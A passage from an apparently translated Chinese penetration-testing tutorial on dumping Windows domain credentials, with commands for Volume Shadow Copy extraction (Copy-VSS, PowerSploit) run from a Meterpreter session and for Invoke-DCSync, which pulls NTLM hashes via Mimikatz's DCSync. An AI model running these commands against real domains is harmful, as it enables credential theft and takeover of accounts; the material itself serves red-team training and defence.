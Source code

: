 也可以使用命令`powershell_shell`直接建立 PowerShell 会话，以便在在现有的 Meterpreter 会话中导入脚本后提取文件。

```
Copy-VSS
Copy-VSS -DestinationDir C:\Ninja
```

[![](https://xzfile.aliyuncs.com/media/upload/picture/20180805171014-5cec702a-988f-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180805171014-5cec702a-988f-1.png)

PowerSploit
-----------

[PowerSploit](https://github.com/PowerShellMafia/PowerSploit) 包含 PowerShell 脚本，该脚本利用卷复制服务创建可用于提取文件的新卷。

```
Import-Module .\VolumeShadowCopyTools.ps1
New-VolumeShadowCopy -Volume C:\
Get-VolumeShadowCopy
```

[![](https://xzfile.aliyuncs.com/media/upload/picture/20180805171014-5cfa4164-988f-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180805171014-5cfa4164-988f-1.png)  
或者，可以通过加载 PowerShell 扩展来从现有的 Meterpreter 会话执行它。

```
powershell_shell
New-VolumeShadowCopy -Volume C:\
Get-VOlumeShadowCopy
```

[![](https://xzfile.aliyuncs.com/media/upload/picture/20180805171014-5d0baaf8-988f-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180805171014-5d0baaf8-988f-1.png)  
然后，可以使用 copy 命令将文件从新卷复制到目标路径。

Invoke-DCSync
-------------

[Invoke–DCSync](https://xz.aliyun.com/tmp/VMwareDnD/681cf04a/Invoke-DCSync.ps1) 是 Nick Landers 利用 PowerView 开发的 powershell 脚本。  
Invoke-ReflectivePEInjection 和 PowerKatz 的 DLL wrapper 调用 Mimikatz 的 DCSync 方法检索哈希值。  
直接执行该函数将生成以下输出：

```
Invoke-DCSync
```

优秀，哈哈！  
[![](https://xzfile.aliyuncs.com/media/upload/picture/20180805171014-5d3a589e-988f-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180805171014-5d3a589e-988f-1.png)

结果将格式化为四个表：Domain，User，RID 和 Hash。但是，使用参数 - PWDumpFormat 执行 Invoke-DCSync 将以以下格式检索哈希：

```
user：id：lm：ntlm :::
```

```
Invoke-DCSync -PWDumpFormat
```
